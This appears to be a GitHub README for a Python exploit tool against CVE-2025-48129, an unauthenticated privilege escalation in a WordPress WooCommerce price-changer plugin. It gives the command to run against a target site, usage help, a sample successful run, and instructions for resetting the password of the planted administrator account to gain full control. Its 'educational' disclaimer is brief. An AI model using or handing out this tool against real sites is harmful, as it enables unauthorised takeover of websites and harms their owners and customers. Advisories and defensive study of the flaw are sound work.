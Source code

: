 # 🚨 CVE-2025-48129 - Privilege Escalation in WordPress Spreadsheet Price Changer Plugin

## 🛡️ Vulnerability Summary

- **Plugin Affected**: Spreadsheet Price Changer for WooCommerce and WP E-commerce – Light
- **Vulnerable Versions**: `<= 2.4.37`
- **Patched Version**: ❌ *No official fix available*
- **Discovered By**: Patchstack | 20 May 2025
- **CVE ID**: `CVE-2025-48129`
- **CVSS Score**: `9.8 (Critical)`
- **Patch Priority**: 🔴 High

## 🔥 Risk

Unauthenticated attackers can escalate privileges by creating an Administrator-level account without needing any prior access. This allows complete takeover of the WordPress site.

> Classified under: **OWASP A7 – Identification and Authentication Failures**

---

## 🧪 Exploit Script Overview

This Python script targets vulnerable versions of the plugin and registers a new WordPress Administrator using only an email and password (hashed via MD5).

---

### ▶️ Example Usage

```bash
python CVE-2025-48129.py -u http://target-site.com/wordpress -mail NxploitBot@gmail.com -p nxploitadmin
```

---

### 📘 Usage Help

```bash
python CVE-2025-48129.py -help

usage: CVE-2025-48129.py [-h] -u URL -mail MAIL [-p PASSWORD]

CVE-2025-48129 - Unauthenticated Privilege Escalation Exploit by Khaled Alenazi (Nxploited)

options:
  -h, --help              show this help message and exit
  -u, --url URL           Target WordPress site URL (e.g., http://site.com/)
  -mail, --mail MAIL      Email for the new Admin account
  -p, --password PASSWORD Password to set (default: nxploitadmin)
```

---

### ✅ Successful Output Example

```
[*] Checking plugin version...
[*] Plugin version: 2.4.37
[*] Vulnerable version detected. Exploiting...
[+] Exploitation successful!

[*] Login credentials:
    Username: NxploitBot@gmail.com
    Password: 21232f297a57a5a743894a0e4a801fc3

[*] If login fails, reset the password manually via:
    http://target-site.com/wordpress/wp-login.php?action=lostpassword
```

---

## ⚠️ Important Note

In some cases, logging in directly with the chosen password may fail.  
This is **not a bug in the exploit**, but a result of how the vulnerable plugin passes hashed passwords to WordPress’s internal user creation system.

If you’re unable to log in, **simply reset the password via email** using the following URL:

```
http://target-site.com/wordpress/wp-login.php?action=lostpassword
```

WordPress will send a password reset email to the Admin account you just created — granting you full access.

---

## 🧾 Legal Disclaimer

This tool is provided for educational and authorized penetration testing purposes only.  
The author assumes no responsibility for misuse or damage caused by this script.

---

*By: Nxploited ( Khaled_alenazi )*
